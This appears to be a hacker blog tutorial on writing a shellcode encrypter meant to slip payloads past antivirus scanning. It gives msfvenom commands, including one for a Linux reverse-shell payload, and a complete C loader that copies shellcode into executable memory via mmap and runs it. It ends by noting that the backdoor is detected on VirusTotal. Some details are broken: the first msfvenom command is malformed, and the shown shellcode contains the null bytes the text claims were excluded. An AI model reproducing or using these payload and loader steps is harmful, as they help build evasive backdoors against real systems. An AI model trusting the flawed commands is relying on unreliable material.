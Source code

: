```yaml
---
layout: post
title:  "Writing a Custom Shellcoder Encrypter - First Post by Zero++;" 
---
```


In this blogpost we will write an custom Shellcode Cryptor in go. 

## But what exactly is Shellcode?
Shellcode is a combination of binary instruction that will be executed on cpu.
Shellcode can be used for everything, to spawn a reverse shell, to execute a program, to obtain a file descriptor or whatever.
We 1337-heckers use Shellcode because its independent, minimalistic, easy to hide and obfuscate and also perfect to inject into processes.
Shellcode can be written by Hand which is very difficult and not recommended by me, i would recommend to extract Shellcode from Assembly or any compiled programs.  

## Requirements to follow this Blog
This tutorial is for Linux but the Shellcode encoding works same on any Operating System, only the process of execution is different.
In this tutorial we will use Metasploit's msfvenom to generate the Shellcode, C and mmap (a Linux systemcall) to make the Shellcode executable.
Shellcode itself is not Executable, data has to be in a specific file format like ELF (used by Unix and Linux for binaries, shared libraries etc.) or the more famous one PE (Portable Executable the file format used by windows for .exe and .dll files) to be executable. Thats why we will use C to make our Shellcode executable inside our program. I highly recommend to use gcc (the gnu compiler collection) or clang to compile your C Code. The go toolchain is also required.


## Generating our first Shellcode  
In this blogpost we will use ```/tmp/blog/``` as workspace.
We will generate Unencrypted Shellcode in C format (later we will use the raw format).
The Shellcode we will generate with msfvenom will execute the "ls" program.
The -b option is for avoiding bytes, in Shellcoding on **x86** we always have to avoid 
NULL-BYTES because it will make our Shellcode stop working (i will not go into depth here).
With specifying ``` -f c ``` we use the C format, it will output a C-bytearray which is just a normal array and can easily just get copied and pasted.  

```bash
# create and navigate to workspace 
$ sudo su
$ mkdir /tmp/blog
$ cd /tmp/blog
# generate and show Shellcode 
$ msfvenom -p linux/x86/exec CMD="ls" -f -b "\x00" c -o raw.txt 
$ cat raw.txt

```
# Executing the Shellcode in C
Now copy the output of ```cat raw.txt``` into the C code down below here and replace your output with the "bytes" array", the has to be renamed to "bytes".
After its done it should look like this.

```c
#include <stdio.h>    /* standard input/output */
#include <string.h>   /* used for memcpy */
#include <sys/mman.h> /* header for mmap syscall and flags */

unsigned char bytes[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00"
"\x00\x6c\x73\x00\x57\x53\x89\xe1\xcd\x80";

int main() {
	/* allocate a memory map */
	void* region = mmap(NULL, 

			sizeof(bytes),
			PROT_WRITE | PROT_EXEC,
			MAP_ANONYMOUS | MAP_PRIVATE,
			-1,
			0);
	/* check for error */
	if(region == MAP_FAILED) {
		perror("mmap");
		return 1;
	}
	
	/* copy shellcode into allocated memory page*/
	memcpy(region, bytes, sizeof(bytes));
	
	/* debug message */
	printf("executing %d bytes shellcode using mmap system call\n", sizeof(bytes));

	/* executing the shellcode via function pointer */
	((int(*)())region)();
	
	/* deallocate the memory */
	munmap(region, sizeof(bytes));
	return 0;
}
```

## Notes and Compiling the Program
This blog is not a C course you already should be familiar with the C language.
I will compile the program with the following command 
```gcc -m32 file.c -o runme && ./runme```
The -m32 option stands basically for 32 bit make sure you have gcc-multilib installed to be able to use the 32-bit headers. After Compiling and 
executing the program we should get following output:
```bash
executing 39 bytes shellcode using mmap system call
file.c	raw.txt  runme
```
as we see the c code and the Shellcode execute "ls", thats why it listed the files down below there.

## Generating Reverse-Shell-Shellcode with msfvenom
Now we will generate Shellcode which will spawn a Reverse-Shell.
To run the Shellcode you have todo the same as before, just copy the output, paste, rename the array, compile and run.
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8089 -b "\x00" -f c -o raw.txt 
```
For some reason msfvenom used shikata_ga_nai, but i didnt specify to use it which was really suprising for me. If we now upload the backdoor to VirusTotal it will be detected.
![Virus Total Screenshot here](.images/vtotal01.png)


















